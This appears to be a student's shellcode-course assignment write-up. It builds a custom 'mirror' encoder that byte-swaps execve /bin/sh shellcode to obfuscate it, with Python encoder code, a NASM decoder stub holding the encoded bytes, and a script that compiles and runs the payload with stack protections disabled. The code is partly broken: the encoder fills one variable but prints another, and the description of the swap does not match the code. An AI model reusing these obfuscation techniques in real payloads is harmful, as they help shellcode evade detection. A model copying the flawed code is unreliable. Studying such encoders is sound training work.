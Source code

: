 # Assignment 4

## What to do:

-Create a custom encoding scheme like the “Insertion Encoder” we showed you. 

-PoC with using execve-stack as the shellcode to encode with your schema and execute.

## Solution: 
  1) Create the encoder.
  
  The encoder created (Mirror_encoder.py) takes the every 4 bytes of the shellcode and reverse its order, meaning, if the string taken is 0x45a3, the resultant will be 0xa345 (this is done until the end of the shellcode is reached). In case the shellcode has not even length, 0xf0 is added to the end of the shellcode to allow the "mirror" modification. 0xf0f0 is appended to the final shellcode as the marker which will be used to stop the nasm decoder.
    
    #########Mirror-Encoder.py
    for x in bytearray(shellcode):  #Add to shell the shellcode as hexadecimal format
      shell += '\\x' + '%02x' % x

    shell2 = ""
    for i in range(0,4*len(bytearray(shellcode)),8): #Loop which takes 2 bytes and swap its order
      if (len(shell[i+1:i+4]) + len(shell[i+5:i+8]))==6:
        shell3 += "0"+ shell[i+5:i+8] + "," + "0"+shell[i+1:i+4] + ","
      elif (len(shell[i+1:i+4]) + len(shell[i+5:i+8]))==3: #If the length of the shellcode is not even, it is added 0xf0 to make it even. 
        shell3 += "0xf0" + "," + "0"+shell[i+1:i+4] + ","


    print shell2 + "0xf0,0xf0" #Marker to finish the decoder
    
  2) PoC with using execve-stack as the shellcode to encode.
  
   * The shellcode to be used is the one obtained from the execve-stack binary.
    
    nasm -f elf32 -o execve.o execve.nasm
    ld -o execve execve.o
    objdump -d ./execve|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
   
   3) Create the nasm decoder.
   
   * The shellcode obtained in the earlier step, must be passed to Mirror_Encoder.py where is "mirrored".
   
   * Now, we have the shellcode to inject into the Mirror_decoder.nasm
   
    #########mirror-decoder-compile.sh
    global _start			

    section .text
    _start:

      jmp short call_shellcode  ;jump-call-pop technique

    decoder:

      pop esi			; pop shellcode into esi
      lea edi, [esi]		; Copy the position in memory of the shellcode to edi, where we will save the decoded one
      xor eax, eax		; Clearing out eax and ecx
      xor ecx, ecx

    decode:
      mov ax, [esi]                ; Moves the first to bytes of esi to ax
      mov cx, ax		     ;Moves ax to cx to check if it is the end of the shellcode
      xor cx, 0xf0f0               ; Compare cx with 0xf0f0 marker
      jz short EncodedShellcode    ; if xor os 0, jump to shellcode
      mov byte [edi], ah           ;Move the second byte to the first byte of edi
      mov byte [edi + 1], al;      ; Move the first byte to the second byte of edi --> 0x31c0 moves to 0xc031 in edi 	
      inc edi			     ; move to next byte in edi
      inc edi			     ; move to next byte in edi	
      inc esi			     ; move to next byte in esi
      inc esi                      ; move to next byte in esi 
      jmp short decode	     ; jump back to start of decode

    ;Modifications can be vieweb by using x/20xc *call during execution (gdb)	

    call_shellcode:

    call decoder
    EncodedShellcode: db 0xc0,0x31,0x68,0x50,0x2f,0x2f,0x68,0x73,0x2f,0x68,0x69,0x62,0x89,0x6e,0x50,0xe3,0xe2,0x89,0x89,0x53,0xb0,0xe1,0xcd,0x0b,0xf0,0x80,0xf0,0xf0,0xee,0xee

4) Compiling the final shellcode
    
    * Once the nasm code is finished, we can use mirror-decoder-compile.sh to assembly and link it, copy the shellcode to the skeleton_shellcode.c, compile the final shellcode and execute it.
   
          #########Mirror-decoder-compile.sh
          echo '[+] Assembling with Nasm ... '
          nasm -f elf32 -o mirror-decode.o mirror-decode.nasm

          echo '[+] Linking ...'
          ld -o mirror-decode mirror-decode.o

          echo '[+] Done!'

          sleep 2

          echo "[+] Dumping disassembling code.."

          objdump=$(objdump -d ./mirror-decode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g')

          echo $objdump 
          sleep 3

          echo "[+] Compiling shellcode.c and executing it.."

          cp skeleton_shellcode.c shellcode.c  #Copy the skeleton of the shellcode (it contais a string named shellcode which it will be replaced with objdump)

          replace "shellcode" "$objdump" -- shellcode.c &>/dev/null #Replace shellcode dump

          sleep 2

          gcc -fno-stack-protector -z execstack shellcode.c -o shellcode &>/dev/null #Compile and execute the shellcode


          ./shellcode


      
